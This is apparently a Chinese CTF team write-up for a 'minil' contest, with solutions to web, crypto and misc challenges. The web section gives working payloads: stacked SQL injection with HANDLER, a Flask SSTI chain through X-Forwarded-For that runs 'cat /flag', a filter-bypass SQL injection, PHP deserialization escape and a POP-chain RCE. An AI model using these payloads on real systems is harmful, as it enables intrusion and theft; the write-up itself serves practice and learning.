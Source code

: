 ```yaml
---
team: flag_小白预定
members:
    - 勇少
    - 见尘
    - 望月夏芽
---
```


## SIGN IN

### Starting Point | Author:望月夏芽

F12，ctrl+U

## Web 

### id_wife | Author:勇少、望月夏芽

堆叠注入

最开始没想到堆叠，跑去盲注，差点怀疑人生
测出来堆叠之后就简单了，其他过滤什么我不知道，直接参考新春战疫的一道sqli，Handler一把梭

```
frank');handler `1145141919810` open;handler `1145141919810` read first;handler `1145141919810` read next;#
```

minil{4cc5cda6-30c6-48ff-ab4e-9c2830005191}

### Personal_IP_Query | Author:勇少

flaskSSTI，绕过下划线、单双引号

显示Your Ip IS……马上想到XFF头，伪造之后发现输入的XFF头显示出来了，输入 `{{2+2}}` 之后回显的 `4` ，直接实锤

playload：
```
?x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__
&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('cat+/flag').read()

X-Forwarded-For:{{()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)()|attr(request.args.x4)(174)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)(request.args.x7)|attr(request.args.x4)(request.args.x8)(request.args.x9)}}
```

### ezbypass | Author:勇少

过滤逗号等号的无列名注入，PHP反序列化字符逃逸

注入做的非预期：
```
logname=1"||1 limit 1 offset 3#&logpass=1
```
得到`alert('Username:Flag_1s_heRe \nPassword:goto /flag327a6c4304a')`，访问。

```
$key = array('php','flag','xdsec');
$filter = '/'.implode('|',$key).'/i';
return preg_replace($filter,'hack!!!!',$payload);
```

php 关键字被替换为 hack!!!! 之后，从3个字符变成了5个字符，但是反序列化的时候由于 s:3 的存在，这个值仍然会被当作三个字符来处理，造成逃逸。
```
payload=phpphpphpphpphpphpphp";s:3:"V0n";s:14:"has_girlfriend";}
```

minil{7f3ea366-f5ab-463c-b511-af63d6dc7715}

### Let’s_Play_Dolls | Author:勇少

PHP无参数RCE、pop链

pop链利用：
```
$pop = new foo3;
$pop->var = new foo2;//触发__toString()，调用execute()
$pop->var->obj = new foo1;//调用foo1的execute()
```

`if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $this->var))` 限制了参数，意思是我们可以 `a();`  `a(a());` 但是不能 `a('1');`

playload：
```
foo1的var属性:
print_r(readfile(end(scandir(current(localeconv())))));
```

echo serialize($pop)之后，需要绕过 __wakeup() 才行

minil{af22c569-6114-44c6-8c8c-4b561cf7ac7b}


## Crypto

### f**k&base | Author:勇少、见尘

题目中已经给出了私钥 **( f , g )** 所以解密非常简单，下面推导一下：

$$
\begin{aligned}
e &\equiv rh+m \ &(mod \ q) \\
&\equiv \frac{rg}{f}+m \ &(mod \ q)
\end{aligned}
$$
两边同时乘 $f$:
$$
\tag{1}ef \equiv rg+mf \ (mod \ q) \\
$$
这时注意到 $g$ 的范围：
$$
\sqrt{\frac{q}{4}}<g<\sqrt{\frac{q}{2}}
$$
所以:
$$
rg+fm<\sqrt{\frac{q}{2}}\sqrt{\frac{q}{2}}+\sqrt{\frac{q}{2}}\sqrt{\frac{q}{4}}<q
$$
那么同余式 $(1)$，可以直接看做等式：
$$
\tag{2}ef = rg+mf
$$
接下来只需计算：
$$
(ef)f^{-1}
\equiv (rg+mf)f^{-1}
\equiv rgf^{-1}+mff^{-1} 
\equiv mff^{-1}
\equiv m \ (mod\ g)
$$
就得到明文了。

exp：

```python
from Crypto.Util.number import long_to_bytes,inverse
f = 4685394431238242086047454699939574117865082734421802876855769683954689809016908045500281898911462887906190042764753834184270447603004244910544167081517863
g = 5326402554595682620065287001809742915798424911036766723537742672943459577709829465021452623299712724999868094408519004699993233519540500859134358256211397
q = 172620634756442326936446284386446310176482010539257694929884002472846127607264743380697653537447369089693337723649017402105400257863085638725058903969478143249108126132543502414741890867122949021941524916405444824353100158506448429871964258931750339247018885114052623963451658829116065142400435131369957050799
e = 130055004464808383851466991915980644718382040848563991873041960765504627910537316320531719771695727709826775790697704799143461018934672453482988811575574961674813001940313918329737944758875566038617074550624823884742484696611063406222986507537981571075140436761436815079809518206635499600341038593553079293254
m = (e*f % q) % g
m *= inverse(f, g)
print(long_to_bytes(m % g))
## y0u_ar3_s0_f@st
```

minil{y0u_ar3_s0_f@st}

### trylll | Author:勇少、见尘

这一题和上面是同一个加密模型，但是只给出了公钥 **( q , h )** ，私钥是可以从公钥中计算出来的。找到这两个数量级为 $\sqrt{q}$ 的私钥 **( f , g )** 即可和上一题一样解密。（甚至通过 h 找到完全符合条件的 (F,G) 也可以）

$$
F(1,h)-R(0,q)=(F,G)
$$

(F,G) 为这个二维的格 {(1,h),(0,q)} 上的最短向量，所以这是一个二维格上的SVP。所以可以不用 LLL，Gaussian Lattice Reduction 就可以了。

exp：

```python
from gmpy2 import iroot, sqrt
from Crypto.Util.number import *
q = 126982824744410328945797087760338772632266265605499464155168564006938381164343998332297867219509875837758518332737386292044402913405044815273140449332476472286262639891581209911570020757347401235079120185293696746139599783586620242086604902725583996821566303642800016358224555557587702599076109172899781757727
h = 31497596336552470100084187834926304075869321337353584228754801815485197854209104578876574798202880445492465226847681886628987815101276129299179423009194336979092146458547058477361338454307308727787100367492619524471399054846173175096003547542362283035506046981301967777510149938655352986115892410982908002343
e = 81425203325802096867547935279460713507554656326547202848965764201702208123530941439525435560101593619326780304160780819803407105746324025686271927329740552019112604285594877520543558401049557343346169993751022158349472011774064975266164948244263318723437203684336095564838792724505516573209588002889586264735

def gaussian(v1, v2):
    while True:
        if sqrt(v2[0]**2+v2[1]**2) < sqrt(v1[0]**2+v1[1]**2):
            v1, v2 = v2, v1
        m = int((v1[0]*v2[0]+v1[1]*v2[1])/(v1[0]**2+v1[1]**2))
        if m == 0:
            return (v1, v2)
        v2 = [v2[0]-m*v1[0], v2[1]-m*v1[1]]

s1, s2 = gaussian([1, h], [0, q])
f, g = s1[0], s1[1]

m = (e*f % q) % g
m *= inverse(f, g)
print(long_to_bytes(m % g))
# l1Ii5n0tea5y
```

minil{l1Ii5n0tea5y}

## MISC

### MITM_0 | Author:见尘

下载文件包，用wireshark打开后，常规流程，先看协议分级

主要数据保存在ipv4中，跟据提示

```
Is HTTPS really safe?Fine the bad guy~
format:minil{XXX}

下载文件：MIMT.pcap.zip

中间人欺骗有几种方案？
```

想到查找中间人的ip地址，于是筛选出http信息，可以看到虽然https为加密，但明显有受害者将流量发送到中间人转发的过程

即找到bad_gay ip：`192.168.1.152`，经过base64加密即得到flag。

### MITM_1 | Author:见尘

同上先看协议分级，然后将大部分数据进行过滤选中。因为得到提示是伪证书，所以应用wireshark的语法筛选--关键字Certificate。

恕我直言有些侥幸，liuyukun的名字实在是很明显的伪证书，答案即为liuyukun CA的base64编码。
此题确有侥幸，之后会看其他大佬思路。


### MiniGameHacking | Author:勇少

啊这……data那个文件里面，直接翻就有flag……这波是？


